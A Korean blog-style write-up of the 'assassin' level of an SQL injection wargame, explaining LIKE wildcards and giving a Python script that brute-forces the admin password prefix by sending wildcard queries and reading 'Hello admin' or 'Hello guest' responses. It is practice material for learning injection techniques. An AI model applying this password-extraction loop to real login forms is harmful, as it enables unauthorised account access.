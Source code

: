 

# [15] assassin

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F4y2Uz%2Fbtrnlsurpq9%2FGK4iDgR7Dsvjz5D8GAtD11%2Fimg.png">

## 풀이

또 새로운 유형이다.

<br> 

싱글쿼터 필터링을 우회할 방법이 딱히 보이지 않는다.

이 경우, 아마도 like절의 특성을 이용하여 admin 레코드를 뽑아오는 문제인 것 같았다.

<br>

먼저, like절에 사용되는 패턴에 대해 간단히 표로 정리해보았다.


<table style="width:100%;">
    <thead style="background:rgb(218, 139, 139);">
        <tr style="height: 20px; color:white">
            <th style=" padding:10px; text-align: center;" colspan="2">SELECT * FROM 테이블 WHERE 컬럼 LIKE [PATTERN]</th>
        </tr>
    </thead>
    <tbody style="text-align:center;">
        <tr>
            <td style="width:50%; padding:10px; text-align: center; background:#E0E0E0; font-weight:bolder">%</td>
            <td style="padding:10px;">모든 문자</td>
        </tr>
        <tr>
            <td style="width:50%; padding:10px; text-align: center; background:#E0E0E0; font-weight:bolder">_</td>
            <td style="padding:10px; background:#EEEEEE;">한 글자</td>
        </tr>
        <tr>
            <td style="width:50%; padding:10px; text-align: center; background:#E0E0E0; font-weight:bolder">A%</td>
            <td style="padding:10px;">A로 시작하는 모든 문자</td>
        </tr>
        <tr>
            <td style="width:50%; padding:10px; text-align: center; background:#E0E0E0; font-weight:bolder">%A</td>
            <td style="padding:10px; background:#EEEEEE;">A로 끝나는 모든 문자</td>
        </tr>
        <tr>
            <td style="width:50%; padding:10px; text-align: center; background:#E0E0E0; font-weight:bolder">%A%</td>
            <td style="padding:10px;">A를 포함하는 모든 문자</td>
        </tr>
    </tbody>
</table>


<br>

패턴을 살펴보니, pw=% 를 입력할 시 해당 테이블의 첫번째 레코드를 뽑아오게 될 것 같았다.

(∵ 모든 데이터가 해당 조건을 만족하므로)

<br>

보통 테이블의 첫번째 레코드는 admin 계정이기 때문에 설마하는 마음으로 한번 입력해봤다.

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FZhKZn%2FbtrnjE9XUK5%2F1pVZviULToqZHTmyKVECv1%2Fimg.png">

<br>

첫번째 레코드는 guest 계정이었다.

<br>

어떻게 admin을 뽑아올 지 고민한 결과.. 내리게 된 결론은 Brute Force 였다.

pw의 첫번째 자리에 0% ~ Z% 모든 경우의 수를 대입하여 Hello admin이 뜨는 경우를 찾는 것이다.

<br>

다만 이 방법을 사용할 때는 반드시 고려해야할 점이 있는데,

guest 계정과 admin 계정의 pw 앞부분이 겹칠 수 있다는 점이다.

<br>

때문에 적절한 대처 방법이 필요한데... 자세한 내용은 아래의 코드를 보면서 설명한다.

<br>

다음은 이번 문제를 풀기 위해 짜본 **Python 자동화 코드**이다.

```python
import requests

url = "https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php"
cookie = "spin7uv9vl2fjnjet0tsug5eb6"
head = {"PHPSESSID":f"{cookie}"}

guest = ""
admin = ""
finish = False

print("💘 Brute Force를 시작합니다")

for len in range(1, 30):
    if (finish==True):
        break
    print(f"{len}번째 문자에 대해 검색중입니다..")
    for ran in range(48, 127):
        search = guest+chr(ran)
        param = f"?pw={search}%"
        my_url = url+param
        res = requests.get(my_url, cookies=head)
        if ("Hello admin" in res.text):
            admin = search+"%"
            print(f"👏 적절한 검색어는 {admin}입니다!")
            finish = True
            break
        elif ("Hello guest" in res.text):
            guest += chr(ran)
            break
```

[0] 먼저, 빈 문자열인 guest와 admin을 선언해준다.

<br>

[1-1] 첫번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello admin이 떴을 시, guest(빈 문자열)+해당 문자열+%을 admin에 할당하고 중첩반복문을 완전히 탈출해준다.

[1-2] 첫번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello guest가 떴을 시, 해당 문자열을 guest에 추가하고 다음 루프로 넘어가준다.

- Hello admin이 뜨지 않고 Hello guest가 떴다면, 이는 admin 계정과 guest 계정의 pw 첫번째 문자가 겹친다는 뜻이다. 둘의 문자가 같을 시 테이블 상 첫번째 레코드인 guest 계정이 fetch 되기 때문이다.

<br>

[2-1] 첫번째 문자를 고정한 채로 두번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello admin이 떴을 시, guest+해당 문자열+%을 admin에 할당하고 중첩반복문을 완전히 탈출해준다.

[2-2] 첫번째 문자를 고정한 채로 두번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello guest가 떴을 시, 해당 문자열을 guest에 추가하고 다음 루프로 넘어가준다.

- 첫번째 루프에서와 마찬가지로, Hello admin이 뜨지 않고 Hello guest가 떴다면, 이는 두 계정의 pw 두번째 문자가 겹친다는 뜻이다.

<br>

이하는 동일한 로직으로 반복된다.

결국 해당 코드는 admin과 guest의 pw가 달라지는 지점의 admin의 앞자리를 출력하게 된다.

<br>

예를 들어,

admin pw : 123abc

guest pw : 123xyz

인 경우,

123a% 를 출력하고 종료되는 것이다.

출력문은 admin의 pw에 대한 적절한 검색어로 사용될 수 있다.

<br>

다음은 해당 코드의 실행 결과다.

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FmrP39%2FbtrnrjiteWP%2Flw2kiIcXMwaBwDksWvchJk%2Fimg.png">

Brute Force 결과, 적절한 검색어는 `902%` 이다.


## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fna0E6%2FbtrnoCXQ4Zi%2FntHXLfVKKBgbIcuxuF6Ky1%2Fimg.png">